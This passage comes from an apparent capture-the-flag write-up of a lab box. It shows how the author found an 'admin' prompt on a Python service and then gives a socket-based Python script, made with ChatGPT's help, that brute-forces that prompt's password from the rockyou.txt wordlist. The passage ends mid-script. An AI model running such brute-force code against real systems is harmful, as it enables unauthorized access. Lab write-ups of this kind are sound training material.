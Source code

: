 However, it seems that this script is not complete yet. 

I continued searching for the rest of it but couldn’t manage to get my hands on it. I was struggling until I realized something with the line of code `data == ‘shell’` .

On my initial access using **netcat**, this is the word I instinctively typed, this worked and opened me a shell with restricted privileges, just like this script describes.

Because this script is an older version of the `pyrat.py`, what could happen if I find the *“right endpoint”* to put instead of `‘some_endpoint’` on the line `if data == ‘some_endpoint’` ?

This is what I can do, but before creating a script, I try a few **common usernames** and manage to hit right when I type **admin**, and by looking at how it behaves, it seems that can try fuzzing :

```shell
$ nc $TARGET 8000
admin
Password:
admin
Password:
test
Password:
```

Hence, thanks to the help of chatGPT, we create a script in order to fuzz passwords using the `rockyou.txt` wordlist (and adjusting it because we can only enter the password 3 times before refreshing the client and restarting the connection) :

```shell
import socket
import time

# Target host and port
target_ip = "10.10.134.236"  # Replace with the actual target IP
target_port = 8000

# Path to the wordlist file (e.g., rockyou.txt)
wordlist_path = "/usr/share/wordlists/rockyou.txt"  # Replace with the path to your wordlist file

# Function to read wordlist from file
def load_wordlist(file_path):
    with open(file_path, 'r', encoding='latin-1') as file:
        return [line.strip() for line in file.readlines()]

# Function to fuzz passwords
def fuzz_passwords():
    attempt_count = 0  # Track the number of failed attempts
    passwords = load_wordlist(wordlist_path)  # Load the wordlist
    
    while attempt_count < len(passwords):
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.connect((target_ip, target_port))
            
            # Send the 'admin' endpoint
            s.sendall(b"admin\n")
            response = s.recv(4096).decode("utf-8")  # Read the response after sending 'admin'

            # Check if we reached the password prompt
            if "Password:" in response:
                print("Password prompt received. Starting fuzzing...")

                # Fuzz through the passwords in the wordlist
                for password in passwords[attempt_count:]:
                    # Send the password and check the response
                    s.sendall(password.encode() + b"\n")
                    response = s.recv(4096).decode("utf-8")
                    attempt_count += 1  # Increment the attempt count
```